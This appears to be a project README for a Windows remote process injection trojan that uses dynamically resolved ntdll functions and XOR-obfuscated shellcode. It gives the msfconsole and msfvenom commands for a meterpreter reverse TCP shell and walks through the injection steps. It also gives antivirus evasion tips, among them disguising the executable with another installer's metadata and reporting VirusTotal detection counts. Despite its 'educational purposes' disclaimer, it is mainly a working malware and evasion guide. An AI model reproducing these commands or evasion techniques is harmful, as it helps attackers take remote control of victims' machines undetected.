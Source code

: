 # Native API Remote Process injection Trojan

Remote process injection trojan using Native Api functions (dynamically resolved) and encrypted shellcode, undetected by Windows Defender.
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.


# 💻 Code
This malware calls native api functions usei dynamically resolved function pointers from ntdll.dll, reducing static IAT footprint. So it basically retrieves addresses of native api functions at runtime and uses them to upload shellcode into a target process.

### 1) Listener and encrypted payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its detected way more than the raw shellcode for some reason:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ```encrypter.c```  file, where the binary data is converted into Base64, use a custom base64_chars set instead of the standard alphabet to obfuscate more, secondly XOR encryption is applied (single-byte key), and finally we convert it into a hexadecimal string. You can find the encrypting code [here](https://github.com/Hue-Jhan/Simple-shellcode-crypter) or you can use your own encryption, but remember not to use rsa or aes or similar encoding algorithms as they are "too perfect" and raise the entropy levels too much.

### 2.1) Native Api:
We get a handle to ntdll and we dynamically resolve its functions, these are the lowest level Win API calls exposed to the user mode, and are the closest interface to the Windows kernel, below them there are just system calls which i will include in the future. Unlike ```kernel32.dll``` APIs like VirtualAllocEx, ```ntdll``` functions are sometimes less likely to be hooked by EDRs at user level.

- In order to use Ntdll we create custom typedef structs for each function, and we define all the internal structures and objects that they need, sometimes structures may be nested and require even more internal objects;
- Then we use ```GetNtFunctionAddress``` function to dynamically retrieve addresses of NT functions from ntdll using ```GetProcAddress```.
- Once we retrieve them, we can call these native NT functions directly and use them to do cool stuff : )

### 2.2) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we find the PID of the target process using GetProcID and we get a handle for it;
- We allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable;
- Then we create a new thread in the target process which will execute the shellcode.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/nt-crypt-proc-inj-msfvenom.png" width="350" />

The raw exe file is currently undetected by windows defender but gets blocked by Bitdefender (even the free trial, yes bitdefender is the best av in my opinion, only behind crowdstrike). 

On virus total it gets 9 detections and as usual it doesn't show bitdefender flagging it.

If i obfuscate the file even more with Resource Hacker by inserting the metadata of another well known software like visual studio code installer, the detections drop to 2 on virus total. <img align="right" src="media/nt-crypt-proc-inj-msfvenom-reshacked.png" width="350" />


You can obfuscate it even more using tools like soggoth, or by turning it into an msi or iso file.
